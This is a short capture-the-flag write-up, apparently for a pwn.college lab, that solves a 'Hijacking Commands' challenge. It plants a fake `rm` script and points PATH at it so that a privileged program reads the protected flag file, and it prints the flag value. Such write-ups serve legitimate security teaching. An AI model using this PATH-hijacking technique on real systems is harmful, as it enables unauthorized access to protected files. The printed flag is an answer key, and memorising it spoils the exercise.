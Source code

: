 # Challenge 5: Hijacking Commands
"Overwriting" a command using scripts and `PATH`
## Solution
First we create a script called `rm` that will overwrite the usual functionality of the command
```
hacker@path~hijacking-commands:~$ nano rm
```
The script:
```
#!/bin/bash
/run/dojo/bin/cat /flag
```
Now, we make the script an executable using `chmod a+x`, set `PATH` to our _home_ directory and invoke `/challenge/run`
```
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ PATH=~/
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{AmbbgXWH2dTflPvynoyDUKnMvmO.QX3cjM1wiMwAzNzEzW}
```

## Flag
`pwn.college{AmbbgXWH2dTflPvynoyDUKnMvmO.QX3cjM1wiMwAzNzEzW}`